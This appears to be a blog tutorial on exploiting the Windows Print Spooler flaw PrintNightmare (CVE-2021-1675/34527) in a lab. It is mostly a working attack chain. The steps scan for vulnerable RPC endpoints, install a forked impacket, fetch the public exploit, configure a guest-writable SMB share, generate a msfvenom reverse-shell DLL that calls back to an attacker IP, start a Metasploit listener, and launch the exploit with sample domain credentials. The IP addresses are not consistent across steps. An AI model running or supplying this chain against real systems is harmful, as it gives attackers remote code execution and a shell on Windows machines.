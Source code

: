 ## Scanning Vulnerable hosts with rpcdump.py

```powershell
# rpcdump.py @DC-IP | egrep 'MS-RPRN|MS-PAR'
$ rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

**_Expected Output :_**

```
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```


![](https://i.imgur.com/GkOuslZ.png)


### Preparation in Kali

Open a terminal and enter the following commands. This will get an alternate package of impacket and will download the python script needed for this exploit

```powershell
$ cd /tmp/
$ sudo pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ sudo python3 ./setup.py install
$ wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-1.png)

The script will need to download a malicious DLL file. So we need a share and for this, we will create an smb server on kali.

Type in the following command to config the smb server to point to the tmp directory on your kali machine. We are using this tmp directory because when rebooting kali all will be gone. But you can choose any directory you want. Just make sure it has the correct rights to be used as a public share.

```shell
$ sudo nano /etc/samba/smb.conf
```

Put in the following config

```
 [global]
     map to guest = Bad User
     server role = standalone server
     usershare allow guests = yes
     idmap config * : backend = tdb
     smb ports = 445
  
 [smb]
     comment = Samba
     path = /tmp/
     guest ok = yes
     read only = no
     browsable = yes
     force user = smbuser
```

Start the smb server with the following command

```shell
$ sudo service smbd restart
```

Now we are going to create the DLL that we will be using to create a reverse shell. Type in the following command and change the IP to your kali machine IP and copy the dll to the tmp directory

```powershell
$ msfvenom  -f dll -p windows/x64/shell_reverse_tcp LHOST=10.0.0.132 LPORT=443 -o reverse.dll

$ cp reverse.dll /tmp
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-2.png)

Next we will start a listener with msfconsole. Type in the following commands

```powershell
$ msfconsole
msf6 > use multi/handler
msf6 > set PAYLOAD windows/x64/shell_reverse_tcp
msf6 > set LHOST 10.0.0.132
msf6 > set LPORT 443
msf6 > run
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-3.png)

## The Exploit the PrintNightmare

Navigate to the tmp directory as that is where we have our py file. Type in the following command to start the exploit. Please do change the IP address to your lab environment. The first Ip is the Windows machine and the second the kali

```
sudo python3 CVE-2021-1675.py marvel.local/fcastle:Password1@10.0.0.117 '\\192.168.0.157\smb\reverse.dll
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-4-1024x876.png)

## Reference

- [CVE-2021-34527 – Security Update Guide – Microsoft – Windows Print Spooler Remote Code Execution Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [GitHub – cube0x0/CVE-2021-1675: C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527](https://github.com/cube0x0/CVE-2021-1675)
